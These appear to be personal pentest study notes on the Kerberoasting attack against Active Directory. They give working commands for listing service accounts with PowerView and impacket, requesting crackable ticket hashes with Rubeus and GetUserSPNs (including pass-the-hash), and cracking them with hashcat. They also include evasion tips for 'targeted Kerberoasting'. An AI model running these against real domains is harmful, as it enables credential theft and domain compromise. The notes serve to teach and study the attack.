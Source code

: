 public:: true

- In case a [SPN](((655e0fad-5b48-42ce-b82a-09cd0e4a9322))) is associated to an AD user account instead of an AD computer account, then the service instance that SPN is registered for **will be run in the context of that user**.
- #+BEGIN_NOTE
  As opposed to *[AD computer account](((655e3185-f921-4b07-bb00-e397a2486fc6)))*, the *AD user account* password might be bruteforced.
  #+END_NOTE
- When the KDC returns a [TGS-REP](((655b6438-ee0f-4168-8a40-754613d2b793))) it also returns [some information](((655a24c7-b91e-4a45-8468-c565395f566e))) encrypted with the password of user associated to the SPN.
- The Kerberoasting attack consist on targeting services ran by AD user account.
	- Search for services ran by AD user accounts
	  logseq.order-list-type:: number
	- File TGS-REQs against the KDC for found services
	  logseq.order-list-type:: number
	- Retrieve TGS-REPs
	  logseq.order-list-type:: number
		- The KDC always return a TGS-REP (if we can file a TGS-REQ from a domain user) beacuse no checks are performed to confirm whether we have any permissions to access the service hosted by the SPN. These checks are performed as a second step [only when connecting to the service itself](((655b6438-6055-4038-b37b-457c7b623610))).
	- Try to bruteforce TGS-REPs offline to retrieve the AD user account password
	  logseq.order-list-type:: number
	- Loot
	  logseq.order-list-type:: number
- id:: 655e327e-5e4b-4260-828e-33941dad976c
  #+BEGIN_TIP
  In case you have **GenericWrite** or **GenericAll** permissions on another AD user account you could reset the user's password but *this may raise suspicion*. However, you could also [set an SPN](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) for the user *(kerberoast the account)* and crack the password hash in an attack named **Targeted Kerberoasting**.
  
  Do not forget to delete the SPN once you've obtained the hash!
  #+END_TIP
- Retrieve the list of SPNs associated to AD users accounts.
  *(Kerberoastable users)*
	- #+BEGIN_TIP
	  We know that a user account is being used to run a service because his `ServicePrincipalName` property is not null.
	  #+END_TIP
	- From Windows with PowerView
	  id:: 655e1f7d-ff2f-48b3-b240-c888d0cfb1b1
		- id:: 655e2029-2d0e-476f-9c58-c69ce7906fa7
		  ```powershell
		  # List any service principals associated with an AD user account
		  Get-NetUser -SPN | select samaccountname,serviceprincipalname
		  ```
	- From Linux with [[GetUserSPNs]]
		- id:: 655e2491-e204-4c69-859d-53d7425c4419
		  ```bash
		  # List any service principals associated with an AD user account
		  impacket-GetUserSPNs -dc-ip domain-controller-ip 'domain.tld/username:password'
		  
		  # List any service principals associated with an AD user account (Pass-the-Hash)
		  impacket-GetUserSPNs -dc-ip domain-controller-ip -hashes lm-hash:nt-hash 'domain.tld/username'
		  ```
- #+BEGIN_PINNED
  Kerberoasting [tools](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/) typically request **RC4** encryption when performing the attack and initiating TGS-REQ requests.
  
  This is because *RC4* is [weaker](https://www.stigviewer.com/stig/windows_10/2017-04-28/finding/V-63795) and easier to crack offline using tools such as [[Hashcat]], compared to other encryption algorithms such as *AES-128* and *AES-256*.
  
  *RC4* (type 23) hashes begin with `$krb5tgs$23$*` while *AES-256* (type 18) start with `$krb5tgs$18$*`.
  #+END_PINNED
- Retrieve TGS-REPs for Kerberoastable users
	- From Windows with [[Rubeus]]
	  id:: 655e28cb-6916-4e6a-acbf-448824638693
		- This tool search for SPNs associated with with AD user accounts and request TGS-REP accordingly.
		- It needs to be ran from compromised windows machine in the context of an domain user.
		- ```powershell
		  .\Rubeus.exe kerberoast /tgtdeleg /outfile:hashes.kerberoast
		  ```
			- If the `/tgtdeleg` flag is supplied, the [tgtdeleg](https://github.com/GhostPack/Rubeus/tree/1155140b15008259be4fb05b7c28fc03e807a626#tgtdeleg) trick it used to get a usable TGT for the current user, which is then used for the roasting requests. If this flag is used, accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested. More info [here](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/).
	- From Linux with [[GetUserSPNs]]
	  id:: 655e2ce7-cc6b-42f9-8adf-a6e93a8956dd
		- ```bash
		  impacket-GetUserSPNs -request -dc-ip 192.168.50.70 -outputfile hashes.kerberoast corp.com/pete
		  ```
		- `-request` - is specified to request the [TGS-REP](((655b6438-ee0f-4168-8a40-754613d2b793))).
		- `-dc-ip` - The KDC (domain controller) IP
		- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
		- `-outputfile hashes.kerberoast` - file to save captured hashes.
- Crack **Kerberos 5 TGS-REP** hashes via [[Hashcat]] with the [`-m 13100`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655e2b6a-bc1a-494a-86e2-c23880ba612c
  ```bash
  sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 13100` - specifies the correct mode
	- `hashes.kerberoast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali